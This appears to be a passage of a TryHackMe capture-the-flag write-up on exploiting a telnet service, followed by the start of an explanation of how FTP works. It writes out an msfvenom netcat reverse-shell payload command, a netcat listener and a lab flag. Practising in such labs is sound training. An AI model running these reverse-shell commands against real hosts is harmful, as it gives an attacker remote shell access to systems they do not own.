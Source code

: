 ```
Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

Y


We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:

"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"

-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

What word does the generated payload start with?

mkfifi



Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

"nc -lvnp [listening port]"

What would the command look like for the listening port we selected in our payload?

nc -lvnp 4444


Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

Success! What is the contents of flag.txt?

THM{y0u_g0t_th3_t3ln3t_fl4g}
```


## understanding FTP

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.  

****How does FTP work?****

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel.
